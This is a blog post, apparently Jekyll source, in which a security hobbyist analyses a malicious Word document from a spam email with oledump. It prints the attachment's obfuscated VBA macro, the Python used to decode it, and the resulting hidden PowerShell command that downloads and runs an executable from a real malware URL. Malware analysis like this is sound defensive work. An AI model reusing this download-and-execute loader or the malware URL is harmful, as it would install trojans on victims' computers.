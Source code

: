 ```yaml
---
layout: post
title:  "Analyzing maldocs with oledump"
date:   2017-01-29 07:00:00
comments: true
categories: reversing security malware macros
---
```



I always worked for the red team but as I was going through my spam folder this morning I decided I'd give a try at analyzing malicious attachments. I also secretly always wanted to check out Didier Stevens' [oledump](https://blog.didierstevens.com/programs/oledump-py/) tool so this was a good excuse :)

#### E-mail

The mail looked like this:

{% highlight text %}
Date: Fri, 27 Jan 2017 12:26:06 +0100
From: Mihail <hunter@puppetlabs.com>
Subject: question
Reply-To: Mihail <AdamBuchbinder@tutanota.com>
X-Mailer: Microsoft Windows Live Mail 14.0.8117.416
Message-ID: <1CE6AE0E2AFED033EFEAA3140087FFB0@sh>

Hey. I found your software is online. Can you write the code for my project?
Terms of reference attached below.
The price shall discuss, if you can make. Answer please.
{% endhighlight %}

The attachment is a file named *New.gz* allegedly containing the "Terms of reference" Mihail is talking about.

#### Malicious attachment fingerprinting

So let's dive in ! I launched a VM and ran some basic checks on the file. binwalk tells us that the file is actually a RAR archive, even though the extension says *.gz*

{% highlight sh %}
$ binwalk New.gz 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             RAR archive data, first volume type: MAIN_HEAD
{% endhighlight %}

The archive contains a document named *New.doc*, apparently a Microsoft Office document:

{% highlight sh %}
$ file New.doc 
New.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.1, Code page: 1251, Template: Normal, Last Saved By: Normal, Revision Number: 2, Name of Creating Application: Microsoft Office Word, Create Time/Date: Fri Jan 27 05:14:00 2017, Last Saved Time/Date: Fri Jan 27 05:14:00 2017, Number of Pages: 1, Number of Words: 0, Number of Characters: 5, Security: 0
{% endhighlight %}

#### Malicious attachment analysis

I can finally try oledump !

{% highlight sh %}
$ python oledump.py -i New.doc
1:       114 '\x01CompObj'
2:      4096 '\x05DocumentSummaryInformation'
3:      4096 '\x05SummaryInformation'
4:     11555 '1Table'
5:       367 'Macros/PROJECT'
6:        41 'Macros/PROJECTwm'
7: M   84985 'Macros/VBA/ThisDocument'
8:     16765 'Macros/VBA/_VBA_PROJECT'
9:       517 'Macros/VBA/dir'
10:       216 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Item'
11:       341 'MsoDataStore/\xc3\x90O\xc3\x904\xc3\x91\xc3\x9f\xc3\x84\xc3\x80\xc3\x84\xc3\x840\xc3\x9fLKL\xc3\x95CGFI\xc3\x89A==/Properties'
12:     15974 'WordDocument'
{% endhighlight %}

We can see that there is a VBA macro on stream 7, let's extract it with oledump:

{% highlight sh %}
$ python oledump.py -s 7 -v New.doc > payload.vba
{% endhighlight %}

The VBA payload contains a shit load of "obfuscated" code but we can find the interesting part by pinpointing where the call to `Shell` happens. We can see in the excerpt below that the argument provided to `Shell` is a concatenation of the `sraqteby` array elements. Yes, there are some array indexing bullshit. I doubt this ever made reversing difficult :D

{% highlight vbnet %}
sraqteby = Array("CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E",
"b^", "cL", "i^", "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE", "'""")

ozqaqzusw = Array("odevzu", "qvonwav", "ohizef", "decaqo", "azxut", Join(sraqteby, ""), "irtubgu")(5)


eratcyke = ucbejja & ubep & ogyl
zema2 = rbipole & scivikwo & ynehsoc & qhyxob
vnilden3 = ejveme & omvyrzi & ezeln & nrezi
uhysylhi = ycijt & yzowr & olec
orybm5 = uzsygip & uhyhges & rmyle
mufqim = wnisofmo & nukag
ywgodyr = Array(mufqim, orybm5, uhysylhi, vnilden3, zema2, Shell(Array(ozqaqzusw)(0), 0), eratcyke)(5)
{% endhighlight %}

I opened a Python interpreter and executed the code below to get the argument provided to `Shell`:

{% highlight python %}
a = ["CM", "D.", "ex", "e ", "/C", " """, "po", "We", "^R", "sH", "^E", "^l", "L.", "EX", "^e", "  ", "  ", " ^", "-e", "XE", "^C", "UT", "^I", "^o", "^n", "^P", "o^", "LI", "^C", "y ", "by", "p^", "As", "^s", "^ ", "  ", " ^", "-N", "^O", "pr", "^O", "^F", "i^", "l^", "e ", "-^", "wi", "nD", "ow", "ST", "^y", "LE", "^ ", "  ", " h", "^I", "Dd", "en", "  ", " ^", "(n", "^e", "^W", "-O", "^b", "je", "^C", "T^", "  ", "  ", "s^", "yS", "te", "^M", "^.", "^N", "ET", ".W", "^E", "b^", "cL", "i^",
 "En", "^T", "^)", "^.", "^d", "OW", "^N", "l^", "oa", "^d", "^F", "I^", "lE", "('", "ht", "tp", ":/", "/n", "ic", "kl", "ov", "eg", "ro", "ve", ".c", "o.", "uk", "/w", "p-", "co", "nt", "en", "t/", "ma", "rg", "in", "26", "01", "_o", "ne", "ch", "at", "_w", "or", "d.", "ex", "e'", ",'", "%A", "PP", "dA", "ta", "%.", "Ex", "e'", ");", "s^", "TA", "rT", "-p", "RO", "^C", "^E", "s^", "S ", "'%", "AP", "pd", "aT", "a%", ".E", "xE"]

print  "".join(a).replace("^", "")
{% endhighlight %}

Which gave me the following one-liner that downloads an executable with PowerShell and executes it (URL escapes are mine):

{% highlight text %}
"CMD.exe /C poWeRsHElL.EXe     -eXECUTIonPoLICy bypAss    -NOprOFile -winDowSTyLE    hIDden   (neW-ObjeCT    sySteM.NET.WEbcLiEnT).dOWNloadFIlE('http://nicklovegrove[.]co[.]uk/wp-content/margin2601_onechat_word.exe','%APPdAta%.Exe');sTArT-pROCEsS '%APpdaTa%.ExE"
{% endhighlight %}

Let's hash it !

{% highlight sh %}
$ curl http://nicklovegrove.co.uk/wp-content/margin2601_onechat_word.exe | sha1sum
0df45a365e2135531b0beba8e50d0453eee70047
{% endhighlight %}

Submitting the hash to [VirusTotal](https://www.virustotal.com/en/file/3f73b09d9cdd100929061d8590ef0bc01b47999f47fa024f57c28dcd660e7c22/analysis), we can see it's already detected as a Trojan by some AV. Some analyst provided the download URL in comments.


That's all for now, I'm not good enough at reversing Windows executables to go further :)
